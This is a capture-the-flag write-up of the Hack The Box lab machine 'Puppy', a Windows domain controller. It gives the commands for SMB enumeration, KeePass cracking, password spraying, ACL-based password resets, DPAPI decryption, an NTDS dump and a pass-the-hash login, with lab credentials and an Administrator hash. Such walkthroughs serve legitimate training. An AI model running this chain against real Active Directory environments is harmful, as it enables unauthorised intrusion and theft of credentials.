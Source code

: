 ```yaml
---
title: "HTB Machine : Puppy"
description: Puppy is an easy Windows machine on HTB. Initial access is obtained by abusing weak credentials in an exposed service. User enumeration reveals credentials for a low-privileged account. Privilege escalation is performed via misconfigured service and local file access to obtain Administrator privileges.
image: /images/Puppy/Puppy.png
date: 2025-08-05 14:30:00 +/-TTTT
categories: [HTB]
tags: [HTB, Windows, AD, pentest]
---
```


## Overview

- **Initial Access**: Valid credentials
- **Privilege Escalation**: BloodHound + DPAPI + NTDS dump
- **Techniques**:
  - SMB enumeration
  - KeePass cracking
  - ACL abuse
  - Credential extraction
  - DC Sync attack

---

## Initial Credentials

Username: levi.james
Password: KingofAkron2025!

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN puppy.nmap 10.10.11.70
# Nmap 7.95 scan initiated Sat May 24 12:37:04 2025 as: /usr/lib/nmap/nmap --privileged -sV -sC -oN puppy.nmap 10.10.11.70
Nmap scan report for 10.10.11.70
Host is up (0.050s latency).
Not shown: 985 filtered tcp ports (no-response)
Bug in iscsi-info: no string output.
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-24 17:37:38Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-24T17:39:31
|_  start_date: N/A
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 24 12:40:11 2025 -- 1 IP address (1 host up) scanned in 186.52 seconds
```

> add the domains to  `/etc/hosts` 

```bash
echo "10.10.11.70   DC DC.PUPPY.HTB PUPPY.HTB" | sudo tee -a /etc/hosts
```

## SMB Enumeration

### Shares via `nxc`

```bash
nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --shares
```

**Interesting Share**: `\\puppy.htb\DEV`
**Downloaded**:

* `recovery.kdbx` – KeePass DB
* `KeePassXC-2.7.9-Win64.msi`

---

## Cracking KeePass

### Tool: `keepass4brute`

```bash
keepass4brute.sh recovery.kdbx /opt/rockyou.txt 
```

> Password found: `liverpool`

### Extracted Credentials

```yml

| Username       | Password       |
| -------------- | -------------- |
| jamie.williams | JamieLove2025! |
| adam.silver    | HJKL2025!      |
| ant.edwards    | Antman2025!    |
| steve.tucker   | Steve2025!     |
| samuel.blake   | ILY2025!       |

```
---

## Valid Credential Spray

```bash
nxc smb puppy.htb -u users.txt -p passwords.txt | grep '[+]'
```

**Valid**: `PUPPY.HTB\ant.edwards:Antman2025!`

---

## BloodHound Enumeration

### Sync time & run

```bash
faketime "$(ntpdate -q 10.10.11.70 | awk '/^[0-9]/ { print $1" "$2; exit }')" \
bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb -ns 10.10.11.70 -c all --zip
```

> **Finding**: `SENIOR DEVS` group has `GenericAll` on `adam.silver`

![alt text](/images/Puppy/genall.png)
---

##  Reset Password via ACL Abuse

```bash
bloodyAD -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb --dc-ip 10.10.11.70 set password 'adam.silver' 'Passw@rd'
```

 New creds: `adam.silver / Passw@rd`

---

## WinRM Access

```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p 'Passw@rd'
```
> i got the user flag

---

## Discovery: Site Backup

* Found: `C:\Backups\site-backup-2024-12-30.zip`
* Extracted: `nms-auth-config.xml.bak`

```xml
<bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
<bind-password>ChefSteph2025!</bind-password>
```

---

## Pivot to steph.cooper

```bash
evil-winrm -i 10.10.11.70 -u steph.cooper -p 'ChefSteph2025!'
```

Accessed `APPDATA\Roaming\Microsoft\Credentials`
Dumped masterkey + credential blob

---

## DPAPI Decryption

```bash
impacket-dpapi masterkey -file key.blob -sid <sid> -password 'ChefSteph2025!'
```

```bash
impacket-dpapi credential -file credentils.blob -key <decrypted_key>
```

Recovered:

```
Username: steph.cooper_adm
Password: FivethChipOnItsWay2025!
```

---

## Domain Privilege Escalation

### User has:

* DS-Replication-Get-Changes
* DS-Replication-Get-Changes-All

### DCSync via NTDS Dump

```bash
nxc smb 10.10.11.70 -u steph.cooper_adm -p 'FivethChipOnItsWay2025!' --ntds
```
![alt text](/images/Puppy/dcsync.png)
> Recovered Administrator hash:

```
bb0edc15e49ceb4120c7bd7e6e65d75b
```

---

## Final Pwn: Administrator Access

```bash
evil-winrm -i 10.10.11.70 -u administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b
```

> we got the Root Flag

---


